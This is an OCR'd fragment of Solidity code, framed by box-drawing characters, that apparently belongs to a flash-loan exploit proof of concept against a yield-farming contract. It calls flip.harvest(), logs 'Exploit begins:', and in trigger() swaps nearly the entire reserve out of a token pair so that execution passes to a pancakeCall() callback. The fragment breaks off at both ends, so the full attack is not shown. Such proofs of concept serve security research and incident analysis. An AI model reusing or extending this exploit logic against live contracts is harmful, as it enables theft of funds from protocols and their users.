 │         );                                                                                                                                                                                                                                            │
│         require(success, "flip.harvest() fails");                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                       │
│         trigger();                                                                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
│     function trigger() public {                                                                                                                                                                                                                       │
│         if (flip.earned(address(this)) > 0) {                                                                                                                                                                                                         │
│             //Initiate flashloans                                                                                                                                                                                                                     │
│             emit log_string("Initiate flashloans...");                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                       │
│             (uint256 _amount0, uint256 _amount1, ) = pairs[0].getReserves();                                                                                                                                                                          │
│             if (WBNB == pairs[0].token1()) {                                                                                                                                                                                                          │
│                 pairs[0].swap(0, _amount1 - 1, address(this), abi.encode(0, 1));                                                                                                                                                                      │
│             } else {                                                                                                                                                                                                                                  │
│                 pairs[0].swap(_amount0 - 1, 0, address(this), abi.encode(0, 0));                                                                                                                                                                      │
│             }                                                                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                       │
│             // execution passes to pancakeCall()                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                       │